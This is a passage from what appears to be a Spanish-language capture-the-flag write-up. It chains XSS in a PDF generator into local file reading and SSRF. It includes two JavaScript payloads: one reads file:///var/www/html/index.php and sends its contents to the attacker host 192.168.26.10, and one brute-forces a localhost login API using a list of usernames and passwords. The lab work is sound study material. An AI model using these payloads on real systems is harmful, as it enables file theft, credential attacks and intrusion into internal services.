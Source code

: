 Si intentamos leer el contenido de `/var/www/html/index.php` de la misma manera que lo hemos hecho hasta ahora, veremos que no lo lograremos. Por ello, es una buena razón para explorar una alternativa que nos permita visualizar el contenido de los archivos internos, lo cual será posible gracias al siguiente contenido de `pwned.js`.

```js
x=new XMLHttpRequest;
x.onload=function(){
  // No lo pasaremos a base64 (btoa), ya que si no, no funcionará
  new Image().src=`http://192.168.26.10/?resText=${this.responseText}`;
  // De igual forma, mostraremos el conteido en el pdf
  document.write(`<pre>${this.responseText}</pre>`) // Usaremos etiquetas preformateadas (<pre>) para ver el contenido correctamente
};
x.open("GET","file:///var/www/html/index.php");x.send();
```

En el **PDF** generado, veremos el contenido del `/var/www/html/index.php` y en el observemos una credenciales. 

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315223908.png>)
### XSS → SSRF → API

Volveremos a cambiar el contenido de `pwned.js`, en este caso aplicaremos un mini ataque de fuerza bruta para descubrir que usuario tiene capacidad de logearse en la **API**.

```js
function checkUser(username, password){
  x=new XMLHttpRequest;
  x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`; document.write(`[+] Username: ${username} -> ` + this.responseText + "<br>")};
  let data = JSON.stringify({"username": username, "password": password})
  x.open("POST","http://localhost:3000/login");
  x.setRequestHeader("Content-Type", "application/json");
  x.send(data);
}

let users = [
['admin', 'dUnAyw92B7qD4OVIqWXd'],
['Łukasz', 'dQnwTCpdCUGGqBQXedLd'],
['Þór', 'EYNlxMUjTbEDbNWSvwvQ'],
['Ægir', 'DXwgeMuQBAtCWPPQpJtv'],
['Çetin', 'FuLqqEAErWQsmTQQQhsb'],
['José', 'FuLqqEAErWQsmTQQQhsb']
];

for (let user of users){
  document.write(`[+] Username: ${user[0]}<br>`)
  checkUser(user[0], user[1])
}
```
